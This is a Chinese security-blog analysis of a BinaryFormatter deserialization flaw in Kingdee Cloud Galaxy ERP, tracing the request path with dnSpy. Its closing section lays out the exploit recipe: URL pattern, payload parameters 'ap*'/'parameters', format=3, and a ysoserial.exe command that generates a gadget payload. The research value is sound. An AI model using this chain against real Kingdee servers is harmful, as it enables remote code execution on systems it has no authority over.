# 奇安信攻防社区 - 某云的反序列漏洞及绕过思路分析

### 某云的反序列漏洞及绕过思路分析

最近看到 Kingdee 星空反序列化漏洞各种各样的接口，本文将分析其漏洞原理及绕过思路，入门学习.NET 程序的调试过程。

# 某云的反序列漏洞及绕过思路分析

## 0x00 漏洞前言

最近看到 Kingdee 星空反序列化漏洞各种各样的接口，本文将分析其漏洞原理及绕过思路，入门学习.NET 程序的调试过程。

## 0x01 调试环境

参照网络上 Kingdee 星空安装教程搭建即可，调试工具使用 dnspy：

1、搜索 dll 文件定位 exe 程序



2、附加进程到 dnSpy 中

调试-->附加到进程 (P)-->附加

3、搜索要调试的程序集

调试-->窗口-->模块 (如果搜不到说明 dll 文件还没加载进来，先触发使其加载后再搜索)



4、断点调试

注意：如果调试时 dnSpy 报错：`无法获取局部变量或参数的值，因为它在此时不可用，可能是被优化了`



根据 [dnSpy 的 wiki 描述](https://github.com/dnSpy/dnSpy/wiki/Making-an-Image-Easier-to-Debug)：创建 ini 文件禁用编译优化 (创建完后需重启 iis 服务器)；配置环境变量。

## 0x02 漏洞分析

根据网络上的 POC 可以发现漏洞的 url 路径都是以`.kdsvc`结尾的，我们在 web.config 文件中搜索可以发现 handlers 对 Http Request 请求做了处理：



```php
path="*kdsvc"
处理程序要处理的请求路径，即当应用程序收到路径以kdsvc结尾的请求时进行处理
verb="*"
处理程序要处理的HTTP动作，在这里*表示该处理程序将处理所有类型的HTTP请求包括GET、POST等
type="xxx,xxx"
处理程序的类型，这里的类型由两部分组成，处理程序类型的完全限定名,命令空间(dll文件)
```

断点入口找到 dll 文件展开后定位到具体类：`Kingdee.BOS.ServiceFacade.KDServiceFx.KDServiceHandler`，该类是对传入的 url 参数进行处理后返回程序实例 KDSVCHandler：



查看该处理器，第一个方法为`ProcessRequest`：



其中方法`RequestExtractor#Creat`是对 HTTP Request 请求做处理，判断请求方法、是否为 json 格式：



我们可以看到方法`IsContainsJson`根据 ContentType 是否包含 json 返回 flag：



然后通过`requestExtractor = new JQueryRequestExtractor(request, isGet)`将 request 传递的值进行属性的赋值：



继续跟进该实例的方法`RequestExcuteRuntime#StartRequest`，该方法用于处理 HTTP 请求并根据请求的情况执行相应的逻辑包含返回相应状态码等：



方法`RequestExcuteRuntime#StartRequest`里调用了方法`RequestExcuteRuntime#BeginRquest`，方法在处理完会话信息后，继续执行到 69 行我们可以发现这里的 path 为我们传递的 url，通过`webCtx.Context.Server.MapPath(path)` 生成一个 localFile，接着调用了`ServiceTypeManager#BuidServiceType`方法：



跟进该方法可以发现，首先会判断 localFile 是否包含`common.kdsvc`，如果包含会进入`ServiceTypeManager.ReflectServiceType`方法，该方法会通过查找缓存或在程序集中搜索提取出类名和方法名等：



接着`RequestExcuteRuntime#BeginRquest`方法会走到`RequestExcuteRuntime.pipeline.ExcuteRequest(kdserviceContext)`处：



跟进方法可以看到，对 Modules 的遍历会进入不同的 OnProcess 方法 (是对 request 请求校验：分别为是否为 https、session 信息、version 信息以及 API 鉴权)：



最后一次循环会进入`ExecuteServiceModule#OnProcess`方法中：



方法`RequestExtractor#GetServiceParameters`用于处理参数的提取和验证 (即 payload 位置这里重点关注下)，对传入的参数进行判断，首先判断参数是否包含`parameters`，如果包含则创建一个 JSON 数组；当 payload 传入的参数为 ap0 时，会进入 else 里遍历所有的 ap+ 数字：



所以这里我们猜想 payload 的参数位置应该可以为两个：

```php
{"parameters": "[\"payload\"]"}
{"ap*": "payload"}
```

对参数处理完后方法进入如下：

```php
SerializerProxy serializeProxy = new SerializerProxy(requestExtractor.Format, contentEncoding, requestExtractor.Compressed, requestExtractor.UserAgent, requestExtractor.UrlForm_Encode);
```

this.Format=format 对传入的参数 format 定义，我们传入的 format=3 会匹配到 Binary(直接给 format 赋值为 Binary 也是可以的)：



接着会到`ServiceExecutor#Execute`方法：



该方法首先需要用构造函数参数来实例化一个特定类型的对象 obj 且传参只能为 context 即`KDServiceContext`，然后调用不同的`serializer.Deserializer`进行反序列化处理，所以如果任意一个类型的构造函数支持传递该参数都可以进入反序列化：



进入的第一个反序列化方法为`SerializerProxy#Deserialize`，该方法用来对参数类型做判断方法如下，参数类型不能为（string、int、byte、float...）：

```asp
        public object Deserialize(string content, Type type)
        {
            if (string.IsNullOrEmpty(content))
            {
                if (type.IsValueType)
                {
                    return Activator.CreateInstance(type);
                }
                if (type.Equals(typeof(string)))
                {
                    return content;
                }
                return null;
            }
            else if (type == typeof(string))
            {
                if (this.proxy.RequireEncoding)
                {
                    byte[] array = this.proxy.Encoder.Decoding(content);
                    return this.encoding.GetString(array, 0, array.Length);
                }
                return content;
            }
            else
            {
                if (type.IsEnum)
                {
                    return Enum.Parse(type, content, true);
                }
                if (type == typeof(int))
                {
                    return int.Parse(content);
                }
                if (type == typeof(byte))
                {
                    return byte.Parse(content);
                }
                if (type == typeof(float))
                {
                    return float.Parse(content);
                }
                if (type == typeof(double))
                {
                    return double.Parse(content);
                }
                if (type == typeof(long))
                {
                    return long.Parse(content);
                }
                if (type == typeof(DateTime))
                {
                    return DateTime.Parse(content);
                }
                if (type == typeof(decimal))
                {
                    return decimal.Parse(content);
                }
                if (type == typeof(bool))
                {
                    return bool.Parse(content);
                }
                return this.proxy.Deserialize(content, type);
            }
        }
```

最终进入`BinaryFormatterProxy#Deserialize`方法中通过`BinaryFormatter#Deserialize`方法实现反序列化（根据微软描述：[将 BinaryFormatter.Deserialize 方法用于不受信任的输入时，该方法永远都不安全](https://learn.microsoft.com/zh-cn/dotnet/standard/serialization/binaryformatter-security-guide?source=recommendations#binaryformatter-security-vulnerabilities)）：



## 0x03 漏洞总结

1、Url 路径：`程序集.满足条件的类.common.kdsvc`

满足构造函数支持传递 KDServiceContext 类型，且传递参数不为上述`SerializerProxy#Deserialize`方法中的类型即可，我们可以看到在程序集`Kingdee.BOS.ServiceFacade.ServicesStub`中满足条件的类非常多，这里我们就找第一个类说明下：



再找一个满足传参的类，如：

```asp
SaveBizTipsInfos(string bizHost, List<IBizTipsInfos> tips)
```

2、参数

1.  使用 ap 作为参数

由于第一个参数为 string 所以我们需要用第二个参数来传递 payload，这里我们用 ysoserial.exe 生成：

```php
ysoserial.exe -c "a.cs;System.Windows.Forms.dll;System.Web.dll;System.dll" -f BinaryFormatter -o base64 -g ActivitySurrogateSelectorFromFile
```

